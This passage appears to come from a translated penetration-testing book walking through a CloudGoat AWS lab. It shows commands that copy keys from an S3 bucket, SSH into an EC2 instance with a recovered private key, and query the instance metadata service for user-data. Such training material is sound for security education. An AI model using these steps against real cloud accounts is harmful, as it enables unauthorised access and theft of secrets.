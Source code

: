 ```
sudo aws s3 cp s3://<bucket>/<folder>/ .<outputfolder> --profile <Profile Name> 
```

![Text  Description automatically generated](img/B17765_08_19.png)

图 8.19：使用 mcduck 配置文件访问 S3 配置文件

现在，此配置文件仅能访问密钥库，我们已经将公钥和私钥复制到本地的 Kali Linux 中。下一步是通过运行`sudo chmod 400 cloudgoat`来更改私钥的文件权限，然后通过运行`ssh –i cloudgoat ubuntu@PublicIP`直接使用安全外壳登录 EC2 实例，如*图 8.20*所示：

```
sudo chmod 400 privatekey
sudo ssh –i privatekey Ubuntu@publicDNSofEC2 
```

![](img/B17765_08_20.png)

图 8.20：从获得的私钥登录 AWS 实例

现在，我们可以获得 Ubuntu EC2 实例的内部访问权限，通过在远程系统的终端中直接访问`http://169.254.169.254/latest/user-data`来访问元数据服务：

```
curl http://169.254.169.254/latest/user-data 
```
